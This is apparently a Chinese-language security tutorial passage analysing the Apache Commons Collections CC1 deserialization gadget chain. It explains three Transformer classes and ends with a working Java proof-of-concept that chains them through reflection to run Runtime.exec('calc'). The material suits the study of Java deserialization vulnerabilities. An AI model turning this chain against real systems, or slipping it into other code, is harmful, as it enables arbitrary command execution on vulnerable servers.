 ```java
}
```

### 利用链分析

涉及到的接口和类：

在 commons collections 中有一个 Transformer 接口，其中有一个 transform 方法，通过实现此接口来达到类型转换的目的。

![1](/img/289.png)

其中很多类都实现了了该接口，这里需要用到的是如下三个：

- ConstantTransformer

![1](/img/290.png)

就是在构造函数的时候传⼊⼀个 对象，然后再在 transform ⽅法直接将传入值返回

所以他的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，进⽽⽅便后续操作。

- InvokerTransformer

在实例化该类的时候，需要传⼊三个参数，第⼀个参数是待执⾏的⽅法名，第⼆个参数是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表：

![1](/img/292.png)

这个类可以⽤来执⾏任意⽅法，其 transform 方法实现了通过反射来调用某方法，

![1](/img/291.png)

- ChainedTransformer

作⽤是对每个传入的 transformer 都调用其 transform 方法，即前⼀个回调返回的结果，作为后⼀个回调的参数传⼊

![1](/img/293.png)

这三个 transformer 组合在一起即可实现任意代码执行：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;

public class cc1 {

     public static void main(String[] args){
          ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, new Object[]{"calc"})});
          chain.transform(123);
     }
}
```
